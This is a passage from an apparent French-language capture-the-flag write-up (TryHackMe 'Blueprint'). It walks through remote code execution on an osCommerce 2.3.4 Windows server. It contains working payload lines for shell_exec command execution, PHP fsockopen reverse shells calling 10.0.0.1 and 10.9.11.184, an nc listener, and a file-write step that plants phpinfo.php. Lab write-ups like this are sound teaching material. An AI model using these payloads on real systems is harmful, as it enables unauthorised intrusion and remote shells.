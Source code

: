 > nt authority\system

Bingo, on est root avec une RCE, en route vers le Reverse shell.

mais pour ça on va devoir trouver un moyen .... et donc faire des test.


Est-ce qu'on a accès à du powershell ?

```py
payload += """$var=shell_exec("cmd.exe /C powershell -c 'Get-Service'");"""
```

> Maximum execution time of 30 seconds exceeded in !!!

```py
payload += """$var=shell_exec("cmd.exe /C powershell -c '$PSVersionTable.PSVersion'");"""
```

> Undefined variable: PSVersionTable

Bon ça semble être une veille version de Powershell, genre 1.0.



Allons faire un tour sur google...

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```py
payload += '$sock=fsockopen("10.9.11.184",4242);exec("cmd.exe -i <&3 >&3 2>&3");'
```

```sh
kali@kali:~/thm/blueprint$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.9.11.184] from (UNKNOWN) [10.10.0.174] 49438
```

On a une connection qui ferme direct...

Plan B, il faut qu'on envoi un reverse shell php sur le serveur.

Test d'ecriture de fichier via l'exploit.

```py
payload += """$file = fopen('phpinfo.php', 'wb');fwrite($file, '<?php phpinfo() ?>');fclose($file);"""
```

http://target.thm:8080/oscommerce-2.3.4/catalog/install/includes/phpinfo.php

Ca marche !

Du coup on en apprend un peu plus sur la machine.

PHP Version 5.6.28
C:\xampp\php\php.ini 

PATH 	C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\; 
COMSPEC 	C:\Windows\system32\cmd.exe 
DOCUMENT_ROOT 	C:/xampp/htdocs 
SCRIPT_FILENAME 	C:/xampp/htdocs/oscommerce-2.3.4/catalog/install/includes/phpinfo.php 
